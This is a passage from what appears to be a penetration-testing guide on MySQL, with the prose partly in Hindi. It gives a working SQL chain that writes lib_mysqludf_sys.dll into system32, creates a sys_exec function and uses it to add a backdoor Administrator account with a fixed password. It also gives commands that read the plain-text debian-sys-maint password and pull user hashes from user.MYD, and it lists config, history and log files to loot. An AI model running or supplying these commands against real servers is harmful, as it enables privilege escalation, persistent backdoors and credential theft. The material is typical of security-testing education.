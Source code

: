 ```sql
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('C://temp//lib_mysqludf_sys.dll'));
show variables like '%plugin%';
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```
### Extracting MySQL credentials from files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**
```bash
cat /etc/mysql/debian.cnf
```
आप **इन क्रेडेंशियल्स का उपयोग mysql डेटाबेस में लॉगिन करने के लिए कर सकते हैं**।

फाइल के अंदर: _/var/lib/mysql/mysql/user.MYD_ आप **MySQL उपयोगकर्ताओं के सभी हैशेस** (जो आप डेटाबेस के अंदर mysql.user से निकाल सकते हैं) पा सकते हैं_।

आप इन्हें निकाल सकते हैं:
```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```
### लॉगिंग सक्षम करना

आप `/etc/mysql/my.cnf` के अंदर mysql क्वेरीज़ का लॉगिंग सक्षम कर सकते हैं निम्नलिखित लाइनों को अनकमेंट करके:

![](<../images/image (899).png>)

### उपयोगी फ़ाइलें

कॉन्फ़िगरेशन फ़ाइलें

- windows \*
- config.ini
- my.ini
- windows\my.ini
- winnt\my.ini
- \<InstDir>/mysql/data/
- unix
- my.cnf
- /etc/my.cnf
- /etc/mysql/my.cnf
- /var/lib/mysql/my.cnf
- \~/.my.cnf
- /etc/my.cnf
- कमांड इतिहास
- \~/.mysql.history
- लॉग फ़ाइलें
- connections.log
- update.log
- common.log
